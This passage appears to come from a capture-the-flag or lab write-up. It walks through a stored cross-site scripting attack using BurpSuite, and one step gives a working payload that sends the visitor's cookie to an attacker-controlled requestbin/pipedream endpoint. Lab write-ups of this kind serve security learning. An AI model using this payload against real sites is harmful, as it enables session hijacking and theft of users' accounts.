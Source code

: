 However, when sending a request to BurpSuite, this payload throws an error

6. Encode this payload using Decoder

Now the error does not occur, and when we enter the page, we get the following message:

![Screenshot](5.8/Screenshot1.png)

7. One of the most common attack scenarios in this situation is passing a visitor's Cookie to the attacker. To accept the request, we will use the resource https://requestbin.com/. Use the URL specified in the Endpoint field to receive the Cookie:

```bash
+79117238383”><img src=x onerror=fetch(‘https://ADDR.x.pipedream.net/?’+document.cookie) />
```

where ADDR is the address of your endpoint.

8. Re-encode the payload and send it in a request, and then open a new order, after which a request with a flag will appear in the pipedream interface.

### My Journey to Obtaining This

![Screenshot](5.8/Screenshot2.png)

#### Successfully Accomplished: The Pasting Process
